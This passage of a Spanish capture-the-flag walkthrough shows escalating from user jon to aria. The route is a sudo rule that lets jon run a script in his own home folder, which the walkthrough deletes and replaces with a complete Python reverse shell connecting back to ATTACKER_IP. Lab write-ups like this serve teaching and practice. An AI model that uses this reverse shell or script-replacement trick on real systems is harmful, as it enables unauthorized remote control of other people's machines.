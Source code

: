 Metemos como contraseña `hijodelanister` y veremos que estamos dentro como dicho usuario.

## Escalate user aria

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for jon on 83214cba54c7:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User jon may run the following commands on 83214cba54c7:
    (aria) NOPASSWD: /usr/bin/python3 /home/jon/.mensaje.py
```

Vemos que podemos ejecutar el script `/home/jon/.mensaje.py` como el usuario `aria`, por lo que haremos lo siguiente:

Primero vemos que el script esta en nuestra carpeta de la `home` por lo que podremos eliminarla y crear una nueva con el mismo nombre con el contenido que queramos:

```shell
rm /home/jon/.mensaje.py
nano /home/jon/.mensaje.py

#Dentro del nano
#!/bin/python3

import socket
import subprocess
import os

# Configuración del atacante (IP y puerto)
ATTACKER_IP = "<IP>"  # Reemplázalo con tu IP
ATTACKER_PORT = <PORT>           # Reemplázalo con tu puerto

# Establecer conexión con el atacante
def reverse_shell():
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ATTACKER_IP, ATTACKER_PORT))
        
        # Redirigir entrada, salida y errores al socket
        os.dup2(s.fileno(), 0)  # STDIN
        os.dup2(s.fileno(), 1)  # STDOUT
        os.dup2(s.fileno(), 2)  # STDERR
        
        # Iniciar shell
        subprocess.call(["/bin/bash", "-i"])
    except Exception as e:
        print(f"Error: {e}")
        s.close()

if __name__ == "__main__":
    reverse_shell()
```
